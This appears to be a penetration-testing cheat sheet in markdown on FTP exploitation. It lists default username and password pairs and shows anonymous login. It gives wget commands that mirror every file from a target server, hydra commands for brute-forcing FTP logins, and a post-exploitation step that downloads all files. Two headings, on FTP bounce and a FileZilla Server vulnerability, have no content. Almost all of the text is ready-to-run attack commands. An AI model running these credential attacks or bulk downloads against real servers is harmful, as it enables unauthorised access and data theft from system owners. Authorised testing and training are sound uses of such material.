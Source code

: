 ```yaml
---
id: Exploitation
aliases: []
tags:
  - FTP
links: "[[FTP]]"
---
```


# FTP Exploitation

## Common credentials

```
anonymous : anonymous
_anonymous :
_ftp : ftp
admin : admin
administrator : administrator
root : root
ftpuser : ftpuser
test : test
```

## Anonymous login

```sh
ftp <ip>
>anonymous
>anonymous
>binary # set transmission to binary instead of ASCII
>ascii # set transmission to ASCII instead of binary
```

Download all files

```sh
wget -m ftp://anonymous:anonymous@<ip>
wget -m --no-passive ftp://anonymous:anonymous@<ip>
```

## Brute force

Hydra

```sh
hydra -l {target_user} -P {password_list} <target_ip> ftp
hydra -L {users_list} -p {password} ftp://<ip>
```

## FTPBounce attack

## Filezilla Server Vulnerability

___

# FTP Post-Exploitation

Download all files

```sh
wget -r --user="USERNAME" --password="PASSWORD" ftp://<server_address>/
```
